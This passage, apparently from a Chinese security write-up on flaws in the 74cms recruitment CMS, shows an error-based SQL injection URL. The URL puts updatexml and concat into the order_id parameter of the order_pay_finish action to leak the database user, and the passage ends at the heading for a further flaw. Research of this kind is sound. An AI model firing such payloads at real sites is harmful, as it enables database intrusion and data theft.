 ![image](img/99f32786067c9553b72207fa0c068863.png)

注册完成以后登录前台即可

```
url: http://74cms.test/index.php?m=&c=CompanyService&a=order_pay_finish&order_id[0]=match&order_id[1][0]=aaaaaaa") and updatexml(1,concat(0x7e,(select user())),0) – a 
```

![image](img/ef1ef1258aad592496786140878069b9.png)

## 0x07 74cms 独有框架漏洞第三处
